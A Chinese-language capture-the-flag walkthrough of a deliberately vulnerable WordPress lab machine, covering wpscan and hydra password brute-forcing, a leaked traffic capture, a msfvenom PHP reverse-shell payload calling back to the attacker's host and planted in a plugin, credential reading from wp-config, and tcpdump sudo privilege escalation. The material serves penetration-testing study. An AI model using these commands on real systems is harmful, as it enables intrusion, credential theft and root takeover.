

## 信息收集

扫描端口发现是 80 和 22开放了，其中80运行着wordpress服务

使用 `wpscan` 扫描用户和插件

```
wpscan --url http://192.168.99.100/ -e u,p
```

发现了用户 `webdeveloper`

之后自然是尝试爆破密码了，使用 `wpscan` 和 `hydra` 同时爆破

```
wpscan --url http://192.168.99.100/ -U webdeveloper  -P ./rockyou.txt

hydra -l webdeveloper -P rockyou.txt  -t 10 192.168.99.100 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:login_error"
```

但是经过很长时间后并没有爆破出来，神器 `xray` 扫描也未探测到相关信息

也尝试使用了 `dirsearch.py` ，但是依旧无果

换用了 `dirb`

```
GENERATED WORDS: 4613                                                          

---- Scanning URL: http://192.168.99.100/ ----
+ http://192.168.99.100/index.php (CODE:301|SIZE:0)                                                                                                         
==> DIRECTORY: http://192.168.99.100/ipdata/   !!!                                                                                                             
+ http://192.168.99.100/server-status (CODE:403|SIZE:302)                                                                                                   
==> DIRECTORY: http://192.168.99.100/wp-admin/                                                                                                              
==> DIRECTORY: http://192.168.99.100/wp-content/                                                                                                            
==> DIRECTORY: http://192.168.99.100/wp-includes/                                                                                                           
+ http://192.168.99.100/xmlrpc.php (CODE:405|SIZE:42)
```

发现了 `ipdata/` 目录，访问之后是一个流量包

打开之后过滤

```
http.request.method == "POST"
```



原来密码这么复杂。怪不得爆破不出来

## getshell

登录后台之后发现安装了两个插件，并且可以修改源代码，这时候就会想到用 `msfvenom` 生成php木马，然后反弹得到shell

```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.99.1 lport=4444 -f raw -o shell.php
```

修改一个插件的源码然后启用就能拿到shell了

然后查看 `wp-config.php`

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'webdeveloper');

/** MySQL database password */
define('DB_PASSWORD', 'MasterOfTheUniverse');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8mb4');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
```

获得了数据库的账号和密码，那就登陆一下数据库

但是在数据库中并没有获得很多信息

```
mysql> show tables;
show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec
```

尝试直接ssh登陆，居然可以！

## 提权

登录之后 ， `sudo -l`

```bash
webdeveloper@webdeveloper:~$ sudo -l
[sudo] password for webdeveloper:
Matching Defaults entries for webdeveloper on webdeveloper:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webdeveloper may run the following commands on webdeveloper:
    (root) /usr/sbin/tcpdump
```

那就可以用 `tcpdump` 提权了

```bash
webdeveloper@webdeveloper:~$ touch /tmp/exploit
webdeveloper@webdeveloper:~$ echo "cat /root/flag.txt" > /tmp/exploit
webdeveloper@webdeveloper:~$ chmod +x /tmp/exploit
webdeveloper@webdeveloper:~$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/exploit -Z root
[sudo] password for webdeveloper:
dropped privs to root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
710 packets received by filter
0 packets dropped by kernel
webdeveloper@webdeveloper:~$ Congratulations here is youre flag:
cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290
```
